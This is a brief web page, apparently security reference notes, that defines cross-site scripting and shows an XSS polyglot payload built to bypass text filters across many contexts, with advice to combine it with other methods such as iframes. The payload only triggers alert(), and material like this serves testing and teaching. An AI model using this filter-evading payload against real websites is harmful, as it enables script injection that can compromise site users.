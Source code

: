 Cross-Site Scripting is the act of injecting HTML code (typically JS) into a website.

Below is a XSS Polyglot, which attempts to bypass text filters in all contexts:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

This does not mean it will successfully exploit all XSS vulnerable fields. It should be combined with other XSS methods (such as iframes) dependent on the target.
